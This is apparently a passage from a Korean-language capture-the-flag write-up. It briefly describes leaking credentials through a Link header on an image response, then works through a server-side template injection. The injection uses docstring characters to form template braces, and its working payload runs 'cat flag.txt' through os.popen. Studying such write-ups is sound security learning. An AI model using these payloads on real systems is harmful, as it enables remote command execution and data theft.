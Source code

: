 ```js
    res.sendFile(path.join(__dirname, 'logo.png'));
});

app.listen(PORT, () => { });
```

이미지에서 response에 Link header를 설정하여 위와 같이 credential을 유출시킬 수 있습니다.

2. SSTI

```py
ssti={user.hash_password.__doc__[13]}{user.hash_password.__doc__[13]}7*7{user.hash_password.__doc__[30]}{user.hash_password.__doc__[30]}
```

```py
@staticmethod
def hash_password(password):
    """
        {{super mega hash}}
    """
    return hashlib.sha256(password.encode()).hexdigest()
```

**doc**로 들어가게 되어서 로직상 아래와 같이 SSTI를 일으킬 수 있습니다.

```py
ssti={user.hash_password.__doc__[13]}{user.hash_password.__doc__[13]}request.application.__globals__.__builtins__.__import__(%27os%27).popen(%27cat%20flag.txt%27).read(){user.hash_password.__doc__[30]}{user.hash_password.__doc__[30]}
```
